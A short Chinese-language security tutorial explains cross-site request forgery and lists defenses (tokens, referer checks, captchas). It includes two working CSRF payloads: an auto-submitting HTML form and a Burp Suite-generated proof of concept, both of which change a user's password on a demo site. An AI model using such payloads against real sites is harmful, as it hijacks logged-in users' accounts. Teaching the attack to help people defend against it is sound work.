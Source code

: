 # :shushing_face:CSRF漏洞和利用

​		CSRF定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

​		简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

## 例子

修改密码

http://www.webtester.com/csrf/csrf01.php?c=main

登录过的网站 访问csrf.html就会触payload 从而修改密码。

```html
<html> 
<body>
	<form name="csrf" action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
		<input type=text name=password value="123456"></input>
		<input type="submit" value="submit" />
	</form>
	<script>
 		document.csrf.submit();
	</script>
</body>
</html>
```

访问http://www.demo.com/post-csrf.html 就会修改密码

## 测试方法

用burpsuite生成csrf payload

```html
<html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
   <input type="hidden" name="password" value="a123456" />
   <input type="submit" value="Submit request" />
  </form>
 </body>
</html>
```

## 防御方法

- 加上token 进行认证

- 判断页面来源

- 页面加验证码判断